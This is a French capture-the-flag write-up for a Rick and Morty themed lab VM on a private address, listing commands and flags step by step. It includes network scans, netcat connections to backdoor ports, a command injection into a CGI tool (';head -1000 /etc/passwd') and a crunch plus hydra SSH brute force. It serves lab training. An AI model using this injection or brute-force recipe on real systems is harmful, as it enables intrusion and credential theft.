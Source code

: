 +++
title = "write up de nbenny"
weight = 0
aliases = ["activités/ateliers-pentest/pentest01/nbenny"]
[extra]
author = "nbenny"
points = 130
translations = [
    "activities/workshops/pentest/pentest01/nbenny.en.md"
]
+++

``` sh
arp-scan -l -I eth0
nikto -host 10.0.2.11
Mozilla - http://10.0.2.11/passwords/FLAG.txt
```

**FLAG{Yeah d- just don't do it.} - 10 Points**

----------

``` sh
arp-scan -l -I eth0
nikto -host 10.0.2.11 -port 9090
Mozilla - http://10.0.2.11:9090
```

**FLAG {There is no Zeus, in your face!} - 10 Points**

----------

``` sh
arp-scan -l -I eth0
nmap -p- -T5 -A -sV 10.0.2.11
nc 10.0.2.11 13337
```

**FLAG {They Found My Back Door Morty} - 10 Points**

----------

``` sh
arp-scan -l -I eth0
nmap -p- -T5 -A -sV 10.0.2.11
```

``` sh
ftp 10.0.2.11 21
```

basic set login on ftp

- id: Anonymous
- pwd: Anonymous

``` sh
get FLAG.txt
quit
```

``` sh
cat FLAG.txt
```

**FLAG{Whoa this is unexpected} - 10 Points**

----------

``` sh
arp-scan -l -I eth0
nmap -p- -T5 -A -sV 10.0.2.11
nc 10.0.2.11 60000
ls ; cat FLAG.txt
```

**FLAG{Flip the pickle Morty!} - 10 Points**

----------

``` sh
arp-scan -l -I eth0
nmap -p- -T5 -A -sV 10.0.2.11
nikto -host 10.0.2.11 -port 80
dirb http://10.0.2.11/
Mozilla http://10.0.2.11/robots.txt
Mozilla http://10.0.2.11/cgi-bin/tracertool.cgi
```

- insert in tracertool.cgi `;head -1000 /etc/passwd`
- press trace!
- user found -> **Ricksanchez**, **Morty** et **Summer**

``` sh
Mozilla http://10.0.2.11/passwords/passwords.html
```

- inspect element:
- commentaire = Password: **winter**

``` sh
ssh Summer@10.0.2.11 -p 22222
```

password = winter

``` sh
cat FLAG.txt
```

afficher l entete du fichier

``` sh
head FLAG.txt
```

**FLAG{Get off the high road Summer!} - 10 Points**

----------

``` sh
cd /home/Morty
head Safe_Password.jpg
```

The Safe Password: File: /home/Morty/journal.txt.zip. **Password: Meeseek**

``` sh
scp -P 22222 Summer@10.0.2.11:/home/Morty/journal.txt.zip ./
exit
unzip journal.txt.zip
cat journal.txt
```

**FLAG{131333} - 20 Points**

----------

``` sh
ssh Summer@10.0.2.11 -p 22222
cd ~
cp ../RickSanchez/RICKS_SAFE/safe .
./safe 131333
```

**FLAG{And Awwwaaaaayyyy we Go!} - 20 Points**

----------

``` sh
crunch 10 10 azertyuiopqsdfghjklmwxcvbn0123456789AZERTYUIOPQSDFGHJKLMWXCVBN > passfinal
hydra -l RickSanchez -P passfinal ssh://10.0.2.11 -s 22222
```

password: P7Curtains

``` sh
ssh RickSanchez@10.0.2.11 -p 22222
sudo -l
cd
head FLAG.txt
```

**FLAG{Ironic Defibrillator} - 30 points**
